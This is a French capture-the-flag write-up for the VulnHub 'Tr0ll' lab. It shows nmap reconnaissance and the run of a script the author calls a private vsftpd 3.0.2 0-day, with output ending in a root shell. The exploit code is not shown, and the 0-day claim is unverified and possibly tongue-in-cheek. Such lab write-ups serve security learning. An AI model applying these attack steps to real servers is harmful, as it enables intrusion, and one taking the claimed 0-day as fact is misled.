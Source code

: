 # Solution du CTF Tr0ll

Introduction
------------

[Le challenge tr0ll](http://vulnhub.com/entry/tr0ll-1,100/) créé par *Maleus* est le dernier CTF ajouté sur *VulnHub* au moment de ces lignes.  

L'auteur prévient qu'il y aura beaucoup de trolls (c'est à dire des fausses pistes) donc le challenge risque d'être agaçant.  

Toutefois il est aussi indiqué que le challenge se destine aux débutants.  

Mais trop de guessing peu suffire à vous pourrir la vie comme sur le CTF *Flick* que j'ai terminé mais qui ne mérite pas un writeup au vu du temps perdu dessus (d'autres ont déjà écrit des writeups plus intéressants).  

Tour rapide
-----------

```plain
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10 00:43 lol.pcap [NSE: writeable]
22/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
```

Sur le serveur web, à la racine, on trouve seulement une image avec un trollface. Idem pour */secret*.  

dirb ne trouve rien de plus dans ces dossiers, inutile d'aller plus loin.  

Don't feed the troll
--------------------

Je décide de sortie l'artillerie lourde :  

```plain
$ python /work/vrd/exploits/ftp/devloop-vsftpd-3.0.2-l33t-0day-exploit.py
[i] devloop !PRIVATE! 0day exploit for VSFTPd 3.0.2 (Ubuntu)
[*] Connection as anonymous successful !
[*] Fetching leaked memory, please wait (may take 1 or 2 minutes)...
[*] Address of .text section found !
[*] pop-pop-ret should be at 0x0856BF
[*] Sending shellcode as file name...
[*] Jumping to payload, wait for your shell :)
root@troll:~# id
uid=0(root) gid=0(root) groups=0(root)
```
